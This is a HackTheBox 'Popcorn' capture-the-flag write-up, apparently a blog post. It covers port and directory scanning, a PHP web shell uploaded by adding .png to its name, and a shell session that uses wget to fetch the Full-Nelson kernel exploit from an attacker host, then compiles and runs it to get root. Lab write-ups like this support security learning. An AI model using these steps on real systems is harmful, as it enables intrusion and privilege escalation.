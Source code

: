 ```yaml
---
layout: post
title:  "HackTheBox - Popcorn"
date:   2020-1-2 00:10:00 +0000
categories: htb
---
```


# Nmap scan
```
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

# Dirsearch results
```
[06:17:51] 200 -  177B  - /
[06:17:52] 200 -  177B  - /index
[06:18:00] 200 -   48KB - /test
[06:18:28] 301 -  310B  - /torrent  ->  http://10.10.10.6/torrent/
[06:19:31] 301 -  309B  - /rename  ->  http://10.10.10.6/rename/
```

# Webapp things
'/torrent' from the directory bruteforce looks interesting, it directs to a torrent hosting site. There is capability to upload files but we cant due to being unauthenticated. Luckily theres also a signup form so we can be authenticated.
Attempting a straight file upload with a php shell and typical bypasses didnt end up working out. Since the name mentions torrents, i tried a torrent file such as the default kali torrent. This file works just fine. After uploading theres an option to upload an image along with the file. This time appending .png to our php shell allows us to get a connection once we navigate to '/torrent/uploads'


# Getting root
Digging around searchsploit and exploitdb for a kernel exploit was an idea because the kernel is dated as 2009. 
```
“Linux Kernel 2.6.37 (RedHat / Ubuntu 10.04) - 'Full-Nelson.c' Local Privilege Escalation”
``` 
Use wget on the box to get the file, compile and execute to gain root.
```
www-data@popcorn:/dev/shm$ wget http://10.10.14.6:8000/15704.c
wget http://10.10.14.6:8000/15704.c
--2018-12-04 13:35:08--  http://10.10.14.6:8000/15704.c
Connecting to 10.10.14.6:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9487 (9.3K) [text/plain]
Saving to: `15704.c'

100%[======================================>] 9,487       36.7K/s   in 0.3s    

2018-12-04 13:35:08 (36.7 KB/s) - `15704.c' saved [9487/9487]

www-data@popcorn:/dev/shm$ gcc 15704.c -o fml 
gcc 15704.c -o fml
www-data@popcorn:/dev/shm$ chmod +x fml
chmod +x fml
www-data@popcorn:/dev/shm$ file fml
file fml
fml: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.15, not stripped
www-data@popcorn:/dev/shm$ ./fml
./fml
[*] Resolving kernel addresses...
 [+] Resolved econet_ioctl to 0xf840a280
 [+] Resolved econet_ops to 0xf840a360
 [+] Resolved commit_creds to 0xc01645d0
 [+] Resolved prepare_kernel_cred to 0xc01647d0
[*] Calculating target...
[*] Triggering payload...
[*] Got root!
# cat /root/root.txt
cat /root/root.txt
<redacted>
# 
```

aaaaand done.
